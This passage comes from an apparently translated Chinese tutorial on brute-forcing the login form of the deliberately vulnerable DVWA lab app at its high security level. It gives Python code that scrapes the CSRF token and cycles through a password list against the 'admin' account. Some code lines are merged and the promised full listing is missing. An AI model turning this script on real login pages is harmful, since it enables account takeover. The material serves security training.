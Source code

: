 所以我们可以用这几行代码得到它:

```
response = s.get(bruteforce_url)
soup = BeautifulSoup(response.text, 'html.parser')
user_token = soup.find("input", {"name": "user_token"})["value"]
data["user_token"] = user_token
```

这没什么大不了的，所以我们可以通过改变一行代码来改变 main 函数，使之尽可能容易地在三个级别之间切换。

我们可以用 if 语句获得结果，该语句检查安全级别是否设置为高。

这是我们新的主要功能:

```
if __name__=="__main__":
    BASE_URL = "[http://10.10.36.246](http://10.10.36.246)"
    bruteforce_url = f"{BASE_URL}/vulnerabilities/brute?"
    filename = sys.argv[1]
    username = "admin" q = get_passwords(filename) with DVWASessionProxy(BASE_URL) as s:
        s.security = SecurityLevel.HIGH
        for password in q:

            data = {
            "username": username,
            "password": password,
            "Login": "Login"
            } if s.security is SecurityLevel.HIGH.value: response = s.get(bruteforce_url)
                soup = BeautifulSoup(response.text, 'html.parser')
                user_token = soup.find("input", {"name":    "user_token"})["value"]
                data["user_token"] = user_token
            response = send_credentials(s, bruteforce_url, data)
            print(" "*40, end="\r")
            print(f"[!] Testing: {password}", end="\r")
            if "password incorrect." not in response.text:
                print("")
                print(f"[+] Found: {password}")
                break
```

通过运行，甚至这个级别是完整的！祝贺你，祝你成功！

![](img/000c5d29dafb1d30ccfafbe34935f23b.png)

# 第 4 步:代码概述

像往常一样，为了让您更好地了解整个过程，这是完整的代码(我还包括了 utils 库):

# 结论
